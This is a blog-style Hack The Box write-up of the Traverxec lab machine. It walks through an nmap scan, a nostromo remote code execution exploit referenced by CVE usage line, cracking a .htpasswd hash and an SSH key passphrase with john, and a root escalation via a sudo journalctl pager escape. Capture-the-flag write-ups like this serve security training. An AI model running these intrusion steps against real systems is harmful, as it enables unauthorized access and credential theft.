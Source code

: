 ```yaml
---
layout: PostSimple
date: 2020-04-11
title:     "Hack The Box - Traverxec"
tags: ['linux','easy','john','sudo']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/1.png)

We are going to pwn Traverxec by jkr from Hack The Box. Getting User shell is fun and by using GTFOBins correctly we can get Root easily.


Link : [https://www.hackthebox.eu/home/machines/profile/217](https://www.hackthebox.eu/home/machines/profile/217)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

Looks like an normal webpage and There’s a contact form at the bottom of the page, I send some queries but it’s not doing anything. Also the nmap reveals its ``nostromo 1.9.6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/2.png)

## Method 1 :

Found an exploit in metasploit 

> https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec

So Lets fire up the metasploit and try to get the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/3.png)

I got ``www--data``

## Method 2 (Without Metasploit)

> https://www.exploit-db.com/exploits/47837

```Usage: cve2019-16278.py [Target_IP](Target_IP) [Target_Port](Target_Port) [Command](Command)```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/19.png)

Once I get into the machine I can't move to anyother dir so I tried to get a proper shell first.
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ cd /var
cd /var
www-data@traverxec:/var$ 
```

While checking ``nostromo`` conf files found that ``.htpasswd`` are located in same dir.[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/5.png)

It gives me user ``david`` hash.[br/](br/)
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

And I cracked it with john [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/6.1.png) ``Nowonly4me``[br/](br/)

But I cant ``su david`` with that password. I can't access ``david`` home dir too.[br/](br/)
```
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ 
```
So I started checking anything else in ``nhttpd.conf`` and noted.

```
# HOMEDIRS [OPTIONAL]

homedirs			/home
homedirs_public		public_www
```

So I googled about ``nhttpd.conf``

>https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/7.png)

>http://10.10.10.165/~david/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/8.png)[br/](br/)
And that Document tell us that we can view them in the home directory as well as via HTTP.[br/](br/)
We know that ``homedirs_public`` is ``public_www`` So I tried to view them in shell.

```
www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/var/nostromo/conf$ ls ~david
ls ~david
ls: cannot open directory '/home/david': Permission denied

www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/usr/bin$ ls ~david/public_www/protected-file-area
ls ~david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```
There is Backup-SSH file, Lets download it to our machine using netcat.[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/20.png)

## Another Method to download the SSH backup file:

We know there is ``protected-file-area`` I tried to view them on my webpage.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/9.png)
`` david : Nowonly4me `` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/10.png)

Downloaded that file and extracted on my machine.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/11.png)
We got ssh private key.[br/](br/)

It ask for passphase so I tried to crack with ``john`` again. For that we need use ``ssh2john`` first.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/12.png)

Now we can use this with ``john``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/13.png) `` : hunter``

Got User Flag[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/14.png)

## Privilege Escalation:

There is a script located in the home directory.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/15.png)

While checking it , I found that its running ``journalctl`` as sudo.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.1.png)

>https://gtfobins.github.io/gtfobins/journalctl/

According to this ``journalctl`` we need to shrunk the terminal to two lines and then escaped via less.

So I copied the sudo line [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/17.png)

`` !/bin/sh ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/18.png)

I'm Root !!






